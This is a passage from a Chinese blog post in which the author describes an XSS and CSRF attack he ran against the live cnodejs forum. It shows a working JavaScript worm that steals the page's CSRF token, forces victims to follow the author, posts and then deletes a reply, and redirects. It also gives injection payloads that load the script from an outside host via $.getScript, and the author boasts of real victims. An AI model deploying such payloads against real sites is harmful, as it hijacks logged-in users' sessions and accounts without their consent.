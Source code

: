 if($(&#39;#xss&#39;).length&gt;0) $(&#39;#xss&#39;).attr(&#39;target&#39;,&#39;_sel&#39;);<br>    try{<br>        var replayid = $('#reply_form').attr('action').split('/')[1];   <br><span style="white-space:pre"> </span>var myid = '4efc278525fa69ac690000f7';<br> var csrfatt = '';<br>            setTimeout(function(){<br>                location.href = atturl; <br>            },2000)<br> $.get(location.href,{},function(html){<br>      if(html){<br>  try{<br>    var y = html.indexOf('_csrf');<br>   csrfatt = html.slice(y+8, y+32);<br>   }<br>   catch(e){}<br>       if(csrfatt){<br>              $.post('/user/follow', {follow_id:myid, _csrf:csrfatt},function(){<br>   $.post('/'+replayid+'/reply', {r_content:'我崇拜snoopy，他是英雄！', _csrf:csrfatt},function(d){<br>    setTimeout(function(){$.get(location.href, {}, function(data){<br>     var $html = $(data);<br>     var rid = $html.find('.reply_item:last').attr('reply_id');<br>     if(rid){<br>        $.post('/reply/'+rid+'/delete',{reply_id:rid, _csrf:csrfatt},function(d){<br>            <br>      location.href = atturl; <br>         })<br>           <br>     } <br>     },'html');<br>     },200);<br>   })  <br>                  }) <br>  }        <br>        }  <br> },'html');<br>    }<br>    catch(e){    <br>        location.href = atturl;    <br>    }<br>}())</p></pre>最后我们将整个脚本放入 http://rrest.cnodejs.net/static/cnode_csrf.js ，利用注入的a标签执行：javascript:$.getScript(&#39;<span style="line-height:22px">http://rrest.cnodejs.net/static/cnode_csrf.js</span>');</div><div>完成我们的注入，我们接下来就来看看效果吧。</div><div><br></div><div>我发布了一篇名为 《关于cnodejs官网的XSS和CSRF》的文章，然后显示了部分摘要，将正文博客地址连入内容，然后将外部脚本加载进来了，我们先截个图，看看有多少中招啦，哈哈！</div><div><div><img title="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" alt="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" style="margin:0 10px 0 0" src="http://img9.ph.126.net/6_uhyNyOETxg8SX3vAqR_g==/1650287788471822889.jpg"></div> </div><div>目前我把所有没有读的消息都清空了，然后坐等TX上钩，看看到下午下班有多少TX点了链接，为我加了粉丝。</div><div>等下午4点再去CNODEJS上看看吧</div><div><br></div><div>立马就有3个人中招</div><div><br></div><div><div><img title="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" alt="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" style="margin:0 10px 0 0" src="http://img3.ph.126.net/N2IimVTGjjpaYZVjA74TQQ==/670191919565788973.jpg"></div> </div><div><br></div><div>不过这个漏洞刚开始只对chrome有效，后来注入下面的代码之后，就通杀所有浏览器了，hoho~</div><div>最后出了一个下策，通杀chrome，ff，IE，哈哈！</div>最终注入代码：<div><pre><p>javascript:$.getScript('http://rrest.cnodejs.net/static/cnode_csrf.js')//</p><p>"id='follow_btn'name='http://rrest.cnodejs.net/static/cnode_csrf.js'onmousedown='$.getScript(this.name)//'</p></pre></div><div><br></div>注入的文章截图：<div><div><img title="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" alt="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" style="margin:0 10px 0 0" src="http://img5.ph.126.net/KBqHQC9W-mtPC1jxbal5_A==/6597345744076042215.jpg"></div> </div><div><br></div><div>受害者截图，预计到晚上回更多：<div><img title="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" alt="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" style="margin:0 10px 0 0" src="http://img9.ph.126.net/h6tebXPATsU5lHiXaBCuag==/1355020537902914689.jpg"></div> </div><div>我们拿FF看到的请求瀑布图：</div><div><div><img title="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" alt="关于cnodejs官网的XSS和CSRF - snoopyxdy - snoopyxdy的博客" style="margin:0 10px 0 0" src="http://img6.ph.126.net/2ZO8eOGUtsVOMOA_ek77gg==/1349109563391991916.jpg"></div> </div>受害页面（登陆状态攻击才有效）：<div><a rel="nofollow" href="http://cnodejs.org/topic/5050076a5aa28e094301e2b1">http://cnodejs.org/topic/5050076a5aa28e094301e2b1</a> </div></div>